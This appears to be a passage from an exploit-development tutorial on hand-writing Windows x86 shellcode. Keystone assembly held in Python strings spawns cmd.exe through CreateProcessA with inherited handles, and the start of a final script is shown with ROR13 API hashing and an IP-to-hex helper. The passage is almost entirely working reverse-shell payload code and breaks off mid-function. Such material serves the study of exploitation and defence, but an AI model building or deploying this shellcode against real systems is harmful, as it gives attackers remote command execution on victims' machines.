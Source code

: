 ```py
        "       push esp                        ;",  # Push pointer to the STARTUPINFOA structure
        "       pop edi                         ;",  # Store pointer to STARTUPINFOA in EDI
        "   create_cmd_string:                   ",
        "       mov eax, 0xff9a879b             ;",  # Move 0xff9a879b into EAX
        "       neg eax                         ;",  # Negate EAX, EAX = 00657865
        "       push eax                        ;",  # Push part of the "cmd.exe" string
        "       push 0x2e646d63                 ;",  # Push the remainder of the "cmd.exe"
        "       push esp                        ;",  # Push pointer to the "cmd.exe" string
        "       pop ebx                         ;",  # Store pointer to the "cmd.exe" string
        "   call_createprocessa:                 ",
        "       mov eax, esp                    ;",  # Move ESP to EAX
        "       xor ecx, ecx                    ;",  # Null ECX
        "       mov cx, 0x390                   ;",  # Move 0x390 to CX
        "       sub eax, ecx                    ;",  # Substract CX from EAX to avoid overwriting the structure later
        "       push eax                        ;",  # Push lpProcessInformation
        "       push edi                        ;",  # Push lpStartupInfo
        "       xor eax, eax                    ;",  # Null EAX
        "       push eax                        ;",  # Push lpCurrentDirectory
        "       push eax                        ;",  # Push lpEnvironment
        "       push eax                        ;",  # Push dwCreationFlags
        "       inc eax                         ;",  # Increase EAX, EAX = 0x01 (TRUE)
        "       push eax                        ;",  # Push bInheritHandles
        "       dec eax                         ;",  # Null EAX
        "       push eax                        ;",  # Push lpThreadAttributes
        "       push eax                        ;",  # Push lpProcessAttributes
        "       push ebx                        ;",  # Push lpCommandLine
        "       push eax                        ;",  # Push lpApplicationName
        "       call dword ptr [ebp+0x18]       ;",  # Call CreateProcessA
        "   exec_shellcode:                      ",
        "       xor ecx, ecx                    ;",  # Null ECX
        "       push ecx                        ;",  # uExitCode
        "       push 0xffffffff                 ;",  # hProcess
        "       call dword ptr [ebp+0x10]       ;",  # Call TerminateProcess
```

The final code is the following: (as we don't need to test shellcode, we can remove the tests)

```py
import ctypes, struct, numpy, sys
from keystone import *

def ror_str(byte, count):
    binb = numpy.base_repr(byte, 2).zfill(32)
    while count > 0:
        binb = binb[-1] + binb[0:-1]
        count -= 1
    return (int(binb, 2))

def push_function_hash(function_name):
    edx = 0x00
    count = 0
    
    for eax in function_name:
        edx = edx + ord(eax)
        if count < len(function_name)-1:
            edx = ror_str(edx, 0xd)
        count += 1
    
    return ("push " + hex(edx))

def hex_ip(ip_address):
    ip_addr_hex = []
    for block in ip_address.split("."):
```